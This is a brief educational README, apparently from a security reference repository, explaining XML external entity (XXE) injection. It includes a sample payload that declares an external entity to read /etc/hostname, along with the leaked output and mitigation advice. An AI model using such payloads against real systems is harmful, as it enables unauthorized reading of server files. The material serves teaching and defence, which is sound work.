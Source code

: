 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xxe-injection/main/xxe-injection.png"></p>

An adversary may interfere with an application's processing of extensible markup language (XML) data to view the content of a target's files

## Example #1
1. Adversary sends a vulnerable target a malicious request that contains a reference to an external entity (a system identifier)
2. The target's XML processor replaces the external entity with the content dereferenced by the system identifier 

## Code
#### Target-in
```
<?xml version="1.0" encoding="UTF-8"?>
<getLastName>John01</getLastName>
```

#### Target-Out
```
Jone Doe
```

#### Target-in
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE malicious [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<getInfo>&xxe;</getInfo>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XXE injection
- XEE injection
- XML injection

## Risk
- Read data

## Redemption
- Secure processing
- Disable DTD and XML external entity

## ID
4b3566ce-3f7f-40d8-b882-09f59ca967b8

## References
- [wiki](https://en.wikipedia.org/wiki/XML_external_entity_attack)
